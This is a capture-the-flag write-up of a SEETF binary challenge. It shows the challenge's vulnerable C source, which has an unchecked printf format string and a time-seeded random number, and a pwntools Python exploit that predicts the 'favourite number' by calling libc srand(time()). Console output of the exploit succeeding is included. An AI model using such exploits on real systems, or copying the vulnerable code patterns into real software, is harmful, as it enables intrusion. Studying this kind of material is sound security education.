 Before we start you need to download the binary : [Binary](./vuln).

Let's start by running the binary and see what's in there : 

````console 
┌──(ironbyte㉿IronByte)-[/mnt/c/Users/IR0NYTE/Desktop/ctf/distrib]
└─$ ./vuln
Welcome to SEETF!
Please enter your name to register:
IronByte
Welcome: IronByte

Let's get to know each other!
1. Do you know me?
2. Do I know you?
1
Guess my favourite number!
500
Not even close!
Let's get to know each other!
1. Do you know me?
2. Do I know you?
2
Whats your favourite format of CTFs?
String
Same! I love
String
too!
````
We can see him asking us for a name, then he is giving us some options to choose from, 1st option was to guess his favourite number, 2nd was to input something then output it back to you.
Let's take a look at the code: 

````C
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

char name[16];
char echo[100];
int number;
int guess;
int set = 0;
char format[64] = {0};


void guess_me(int fav_num){
    printf("Guess my favourite number!\n");
    scanf("%d", &guess);
    if (guess == fav_num){
        printf("Yes! You know me so well!\n");
	    system("cat flag");
        exit(0);
    }
    else {
        printf("Not even close!\n");
    }
       
}


int main() {

mat1:
    printf("Welcome to SEETF!\n");
    printf("Please enter your name to register: %s\n", name);
    read(0, name, 16);

    printf("Welcome: %s\n", name);

    while(1) {
mat2:
        printf("Let's get to know each other!\n");
        printf("1. Do you know me?\n");
        printf("2. Do I know you?\n");

mat3:
        scanf("%d", &number);


        switch (number)
        {
            case 1:
                srand(time(NULL));
                int fav_num = rand() % 1000000;
		        set += 1;
mat4:
                guess_me(fav_num);
                break;

            case 2:
mat5:
                printf("Whats your favourite format of CTFs?\n");
		        read(0, format, 64);
                printf("Same! I love \n");
		        printf(format);
                printf("too!\n");
                break;

            default:
                printf("I print instructions 4 what\n");
		if (set == 1)
mat6:
                    goto mat1;
		else if (set == 2)
		    goto mat2;
		else if (set == 3)
mat7:
                    goto mat3;
		else if (set == 4)
                    goto mat4;
		else if (set == 5)
                    goto mat5;
		else if (set == 6)
                    goto mat6;
		else if (set == 7)
                    goto mat7;
                break;
        }
    }
    return 0;
}
````

The first thing to notice was that there was a guess_me function out of the main function that asks for a guess number, then try to compare it with another number 'fav_num' that was randomly generated then if your guess is right it will cat for you the flag. Anyway, looking more at the code made me notice another thing which is a critical vulnerability in the code. It was the **'printf (format)'**, actually that print is vulnerable to [*the format string vulnerability*](https://web.ecs.syr.edu/~wedu/Teaching/cis643/LectureNotes_New/Format_String.pdf) because we are not specifying the format of each variable passed through the **print ()** function, which can let you read/write data from the stack so the first thing that come to my mind was to try to overwrite the value of that **favorite_number** into a number that I know then try to call the *guess_me* function then I noticed that the value of favorite number will be always randomized. Anyway, that idea was not good enough to solve the puzzle,  I took a look at the option number 1 and it comes to me the idea of just handling the 2 lines **srand (time (NULL)); int fav_num = Rand () % 1000000;** by myself which is a **bad seed** , by importing the libc library and calling the *time* and the *srand* functions from there to just give me the same random value that the *srand* is giving, after that just passing that value to the *guess_me* function to get the flag. That idea was much easier to implement than using the format string vulnerability for me.
Here's the exploit that i made :
````python
from pwn import *
from time import time
from ctypes import CDLL

target = process('./distrib/vuln') #You have got to change your own path of the binary.
# target = remote('fun.chall.seetf.sg', 50001)

# Including the libc library.
libc = CDLL('/lib/x86_64-linux-gnu/libc.so.6')

# Getting to the input of the first option.
screen = target.recvuntil(b"register:")
target.sendline(b"Ironbyte")
screen = target.recvuntil(b"you?")
target.sendline(b"1")
screen = target.recvline()

# Passing down the current time and generating the Right Number.
libc.srand(int(time()))
generated_Number = libc.rand() % 1000000  
target.sendline(str(generated_Number).encode()) 

# Gdb.attach(target, gdbscript='b* 00400668')

target.interactive()
target.close()
```` 

````console
┌──(ironbyte㉿IronByte)-[/mnt/c/Users/IR0NYTE/Desktop/ctf]
└─$ python3 exploit.py
[+] Starting local process './distrib/vuln': pid 607
[*] Switching to interactive mode
Guess my favourite number!
Yes! You know me so well!
cat: flag: No such file or directory
[*] Got EOF while reading in interactive
$
````
feel free to add your own flag if you are testing locally cuz i'm too lazy to add one :).


